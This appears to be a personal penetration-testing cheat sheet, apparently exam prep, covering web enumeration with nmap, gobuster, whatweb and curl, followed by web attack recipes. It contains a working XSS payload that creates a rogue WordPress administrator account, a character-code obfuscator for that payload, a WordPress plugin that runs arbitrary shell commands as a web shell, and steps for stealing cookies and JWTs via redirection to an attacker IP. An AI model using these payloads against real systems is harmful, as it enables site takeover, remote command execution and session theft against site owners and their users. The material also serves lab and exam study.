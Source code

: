 # Web Ass Tool
## Nmap
- Use NSE script
``` http-num  ```

## Use Gobuster 

    Gobuster fuzzing

    ``` gobuster dir -u {ip} -w /usr/share/wordlists/dirb/common.txt -t 42 ```

## Burp Suite
- You know what to do =]

## enum version/ using which service
- ``` whatweb ```

# Web Enum
- curl POST ``` curl -X POST -d "code=2*2" http://192.168.171.117:50000/verify```

## Gobuster enum API
- Provide pattern in pattern file
    ``` {GOBUSTER}/v1 ```

- Enum
    ``` gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern -t 42```

- Enum try more file extension!!! (Dont be lazy)

- Useful url

    ``` sitemap.xml robots.txt ```

- Useful header info

    ``` X-??? ```

- http file to markdown
  ``` curl -s http://192.168.244.140:8000/ | html2markdown ```
    
# Try Default password !!!

## XSS
Wont be much in exam
- Identify vuln params
- Prepare payload to vuln page/plugin/etc E.G. adding new account to the web

    ```
    var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
    ajaxRequest = new XMLHttpRequest();
    ajaxRequest.open("POST", requestURL, true);
    ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    ajaxRequest.send(params);
    ```
- Minified it with this:
  
    ``` 
    function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
            
    let encoded = encode_to_javascript('insert_minified_javascript')
    console.log(encoded)
    ```

- payload example

    ``` "<script>eval(String.fromCharCode( {output} ..... ))</script> ```

- Simple CLI runner plugin in WP
``` 
<?php
/*
Plugin Name: CLI Runner
Plugin URI: https://example.com/cli-runner
Description: A plugin that allows you to run command line interface (CLI) commands from WordPress.
Version: 1.0.0
Author: Your Name
Author URI: https://example.com
License: GPL2
*/

if (!defined('ABSPATH')) {
    exit; // Exit if accessed directly
}

if (!class_exists('CLI_Runner')) {

    class CLI_Runner {

        public function __construct() {
            // Add a custom action to the WordPress admin menu
            add_action('admin_menu', array($this, 'add_menu'));
        }

        public function add_menu() {
            // Add a submenu under "Tools"
            add_submenu_page(
                'tools.php', // Parent slug
                'CLI Runner', // Page title
                'CLI Runner', // Menu title
                'manage_options', // Capability required
                'cli-runner', // Menu slug
                array($this, 'cli_runner_page') // Callback function
            );
        }

        public function cli_runner_page() {
            // Check if the form has been submitted
            if (isset($_POST['cli_runner_command'])) {
                $command = sanitize_text_field($_POST['cli_runner_command']);
                $output = exec($command);
                echo "<pre>$output</pre>";
            }
            ?>
            <div class="wrap">
                <h1>CLI Runner</h1>
                <form method="post">
                    <textarea name="cli_runner_command" rows="10" cols="80"></textarea><br>
                    <input type="submit" value="Run Command" class="button button-primary">
                </form>
            </div>
            <?php
        }

    }

}

// Initialize the plugin
$cli_runner = new CLI_Runner();
```


## Advanced XSS with redirecting to steal sessions/jwt/cookies
1. Host a python web server and add index.html 
```
<meta http-equiv="refresh" content="0; URL=new_website_url" />

```
2. craft new_website_url: ``` original_url+params?=windows.location='kali_ip'/document.cookies ```
3. call local web and will redirect to the victim web and then pass the cookie thru http call back 